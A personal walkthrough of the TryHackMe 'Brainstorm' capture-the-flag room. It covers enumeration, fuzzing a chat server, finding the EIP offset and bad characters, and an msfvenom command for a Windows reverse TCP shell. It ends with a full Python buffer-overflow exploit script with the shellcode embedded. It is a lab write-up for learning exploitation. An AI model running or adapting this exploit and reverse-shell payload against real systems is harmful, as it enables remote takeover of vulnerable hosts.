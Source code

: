 *2021-09-05*

*kimm3*

# Walkthrough: Brainstorm
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/brainstorm)

## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.43.64
```

No response of ping.
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init `

![nmap-init](assets/markdown-img-paste-20210905094043863.png)

FTP, rdp and some kind of chat server. FTP accepts anonymous user so let's start there.

![ftp-server](assets/markdown-img-paste-20210905094456203.png)

![rdp-try](assets/markdown-img-paste-20210905094604454.png)

RDP server needs a domain name and password.

![chatserver-use](assets/markdown-img-paste-20210905094654133.png)

I copied the files over to a windows VM and started the chatserver.exe, it's the same as the one running on the machine, let's check for bof vulnerabilities.

![chatserver-local](assets/markdown-img-paste-20210905095243931.png)
## Buffer overflow on chatserver
### Fuzzing options
We have two options, username and chat message.

![pyscripts](assets/markdown-img-paste-20210905155738739.png)

I'm using the following scripts from the [buffer overflow prep](https://boxdocs.kimgard.com/wt-bufferoverflowprep-pub/wt-bufferoverflowprep.html#setup) writeup.

![username-fuzz](assets/markdown-img-paste-20210905160319370.png)

The username seems to be clipped at 20 characters, no go.

To work with username input, this is my fuzz script.

```python3
#!/usr/bin/python3

import sys, time, socket

# Target values
ip = "192.168.10.3"
port = 9999
cmd = ""

# Array of increasing values
buffer = []
size = 100
inc_value = 100
iterations = 100

for i in range(0, iterations):
    buffer.append("A" * size)
    size += inc_value

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))
        print(s.recv(1024).decode())
        s.send("test\r\n".encode())
        print(s.recv(1024).decode())

        sendbuff = cmd + string + "\r\n"
        s.send(sendbuff.encode())

        print(s.recv(1024).decode() + "size: " + str(len(string)))
        s.close()
    except:
        print("no connection")
        print("Last string size sent was " + str(len(string)))
        sys.exit(0)
    time.sleep(1)

```
![fuzz](assets/markdown-img-paste-2021090516073971.png)

![id-fuzz](assets/markdown-img-paste-20210905160757432.png)

Seems to be working. Generated a pattern with 'pattern-create.rb' and sent as message.

![send-pattern](assets/markdown-img-paste-20210905162516198.png)

Found the offset with 'pattern_offset.rb' and the EIP value.

![eip-value](assets/markdown-img-paste-20210905162648159.png)

![offset](assets/markdown-img-paste-20210905162725503.png)

Offset is 2012.

Checking for bad characters.

![badcharsend](assets/markdown-img-paste-20210905163555219.png)

```
!mona bytearray -b "\x00"
!mona compare -f "C:\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin" -a 0060FA38
```

![badcharcomplete](assets/markdown-img-paste-20210905163547546.png)

Looks good, let's find a jmp command and generate shellcode.

`!mona jmp -r esp -cpb "\x00"`

![pointers](assets/markdown-img-paste-20210905164127504.png)

9 pointers found. Generating payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`

Testing exploit on my own VM:

![exploit-test](assets/markdown-img-paste-20210905170017584.png)

Seems to be working on my test machine, let's hope that target has same arch and OS.
## Exploit
Worked.

![exploited](assets/markdown-img-paste-20210905170349617.png)

![roottxt](assets/markdown-img-paste-20210905170313737.png)

### Exploit script
```python3
#!/usr/bin/python3

import socket, sys

# socket values
ip = "10.10.43.64"
port = 9999

# sendbuff values
cmd = ""
offset = 2012
overflow = "A" * offset
eip_val = "\xdf\x14\x50\x62"
nops = "\x90" * 16
payload = ("\xba\xc0\xef\x70\x0e\xdd\xc4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x52\x31\x55\x12\x83\xc5\x04\x03\x95\xe1\x92\xfb\xe9\x16\xd0"
"\x04\x11\xe7\xb5\x8d\xf4\xd6\xf5\xea\x7d\x48\xc6\x79\xd3\x65"
"\xad\x2c\xc7\xfe\xc3\xf8\xe8\xb7\x6e\xdf\xc7\x48\xc2\x23\x46"
"\xcb\x19\x70\xa8\xf2\xd1\x85\xa9\x33\x0f\x67\xfb\xec\x5b\xda"
"\xeb\x99\x16\xe7\x80\xd2\xb7\x6f\x75\xa2\xb6\x5e\x28\xb8\xe0"
"\x40\xcb\x6d\x99\xc8\xd3\x72\xa4\x83\x68\x40\x52\x12\xb8\x98"
"\x9b\xb9\x85\x14\x6e\xc3\xc2\x93\x91\xb6\x3a\xe0\x2c\xc1\xf9"
"\x9a\xea\x44\x19\x3c\x78\xfe\xc5\xbc\xad\x99\x8e\xb3\x1a\xed"
"\xc8\xd7\x9d\x22\x63\xe3\x16\xc5\xa3\x65\x6c\xe2\x67\x2d\x36"
"\x8b\x3e\x8b\x99\xb4\x20\x74\x45\x11\x2b\x99\x92\x28\x76\xf6"
"\x57\x01\x88\x06\xf0\x12\xfb\x34\x5f\x89\x93\x74\x28\x17\x64"
"\x7a\x03\xef\xfa\x85\xac\x10\xd3\x41\xf8\x40\x4b\x63\x81\x0a"
"\x8b\x8c\x54\x9c\xdb\x22\x07\x5d\x8b\x82\xf7\x35\xc1\x0c\x27"
"\x25\xea\xc6\x40\xcc\x11\x81\x64\x19\xcb\x22\x11\x1b\xeb\xc5"
"\x5a\x92\x0d\xaf\x8c\xf3\x86\x58\x34\x5e\x5c\xf8\xb9\x74\x19"
"\x3a\x31\x7b\xde\xf5\xb2\xf6\xcc\x62\x33\x4d\xae\x25\x4c\x7b"
"\xc6\xaa\xdf\xe0\x16\xa4\xc3\xbe\x41\xe1\x32\xb7\x07\x1f\x6c"
"\x61\x35\xe2\xe8\x4a\xfd\x39\xc9\x55\xfc\xcc\x75\x72\xee\x08"
"\x75\x3e\x5a\xc5\x20\xe8\x34\xa3\x9a\x5a\xee\x7d\x70\x35\x66"
"\xfb\xba\x86\xf0\x04\x97\x70\x1c\xb4\x4e\xc5\x23\x79\x07\xc1"
"\x5c\x67\xb7\x2e\xb7\x23\xd7\xcc\x1d\x5e\x70\x49\xf4\xe3\x1d"
"\x6a\x23\x27\x18\xe9\xc1\xd8\xdf\xf1\xa0\xdd\xa4\xb5\x59\xac"
"\xb5\x53\x5d\x03\xb5\x71")
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

# Connect to service
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(5)
try:
    s.connect((ip, port))
except:
    print("no connection")
    sys.exit(0)

# Receive banner
buff = s.recv(1024)
while buff:
    print(buff.decode())
    try:
        buff = s.recv(1024)
    except:
        break;

# Enter username
s.send(input().encode("latin1"))

# Receive text
buff = s.recv(1024)
while buff:
    print(buff.decode())
    try:
        buff = s.recv(1024)
    except:
        break;

# Send payload
input("press enter to send payload")
s.send(sendbuffer.encode('latin1'))
```
